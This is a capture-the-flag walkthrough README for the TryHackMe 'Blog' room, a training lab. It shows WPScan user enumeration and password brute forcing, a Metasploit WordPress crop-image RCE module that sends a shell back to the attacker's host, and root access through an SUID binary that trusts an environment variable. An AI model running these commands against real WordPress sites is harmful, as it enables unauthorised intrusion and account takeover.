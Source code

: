 # Blog CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Blog** CTF challenge on [TryHackMe](https://tryhackme.com/room/blog). 
---

after scanning we found 4 open ports: 80, 139, 22,445

we know about WordPress from nmap scan

running feroxbuster scan

![ferox](imgs/ferox.png "ferox")

running WPScan to enumerate plugins and usernames  

```
wpscan --url http://10.10.X.X -v --enumerate vp,u --no-update
```

![users](imgs/users.png "users")

we found `bjoel` and `kwhell`

now we can try to brute force them

```
wpscan --url http://10.10.X.X -v --usernames kwheel --paswords /usr/share/wordlists/rockyou.txt --no-update
```

![pass](imgs/pass.png "pass")

and we found credentials

it worked we are logged in and we see dashboard

![dash](imgs/dash.png "dash")

after googling `wordpress 5.0 exploit` i found shell upload with `metasploit`

![cve](imgs/cve.png "cve")

```
msf6 > use exploit/multi/http/wp_crop_rce
msf6 > set RHOST blog.thm
msf6 > set USERNAME kwheel
msf6 > set PASSWORD c...
msf6 > set LHOST 10.14.X.X
msf6 > run
```

we got shell as `www-data`

![www](imgs/www.png "www")

we need to find user flag somewhere else

![user1](imgs/user1.png "user1")

after running linpeas we found unknown SUID file `/usr/sbin/checker`

![suid](imgs/suid.png "suid")

running the file

![checkerrun](imgs/checkerrun.png "checkerrun")


we need to analyise the file deeper, using strings doesnt give enough clue

after running 

```
ltrace /usr/sbin/checker 
```

we see that the checker file uses getenv("admin")

![ltrace](imgs/ltrace.png "ltrace")

i tried using `export admin=admin` and then running the script and it works

we got root shell 

![root](imgs/root.png "root")

now we need to find the flags

i used this find command 

```
sudo find / -type f -name "user.txt" 2>/dev/null

```

user flag is in `/media/usb/user.txt` and root flag in `/root/root.txt`

![flags](imgs/flags.png "flags")

# MACHINE PWNED
